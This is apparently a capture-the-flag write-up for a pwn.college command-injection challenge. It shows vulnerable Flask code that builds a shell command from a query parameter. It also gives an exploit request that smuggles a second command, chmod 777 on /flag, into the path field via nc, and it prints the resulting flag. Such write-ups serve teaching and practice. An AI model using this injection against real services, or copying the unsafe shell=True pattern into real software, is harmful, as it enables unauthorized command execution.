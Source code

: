 # 💉 Command Injection 5 — Writeup

## 🧩 Challenge Overview

**Category:** Web Exploitation  
**Challenge Name:** cmdi-5  
**Platform:** pwn.college  
**Goal:** Exploit a command injection vulnerability in the `/test` endpoint to run arbitrary shell commands and retrieve the flag.

---

## 📝 Source Code Analysis

```python
#!/opt/pwn.college/python

import subprocess
import flask
import os

app = flask.Flask(__name__)

@app.route("/test", methods=["GET"])
def challenge():
    arg = flask.request.args.get("path", "/challenge/PWN")
    command = f"touch {arg}"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,  # the command to run
        shell=True,  # use the shell to run this command
        stdout=subprocess.PIPE,  # capture the standard output
        stderr=subprocess.STDOUT,  # 2>&1
        encoding="latin",  # capture the resulting output as text
    ).stdout

    return f"""
        <html><body>
        Welcome to the touch service! Please choose a file to touch:
        <form action="/test"><input type=text name=path><input type=submit value=Submit></form>
        <hr>
        <b>Ran {command}!</b><br>
        </body></html>
        """

os.setuid(os.geteuid())
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```
---
## Vulnerability
The value of the path query parameter is directly used in a shell command:
```bash
command = f"touch {arg}"
```
Since shell=True is used, this allows command injection via shell metacharacters like ;, &&, or |.

---
## Exploit

We'll inject a command using ; to escalate privileges on the flag file and make it readable.

```bash
printf "GET /test?path=hello;chmod+777+/flag+%%23 HTTP/1.0\r\nHost:challenge.localhost\r\n\r\n" | nc challenge.localhost 80
```
### Breakdown:
- hello → Dummy file name
- ;chmod+777+/flag+%23 → Injected command to make /flag world-readable
  - + becomes space
  - %23 is # (to comment out remaining shell line)

---

## Final Step
Now simply read the flag:
```bash
cat /flag
```
Output:
```bash
pwn.college{cqMqQmTFOTppp1fqR5JAEzmpj-G.QX3YTN2wSM0IzMyEzW}
```

---
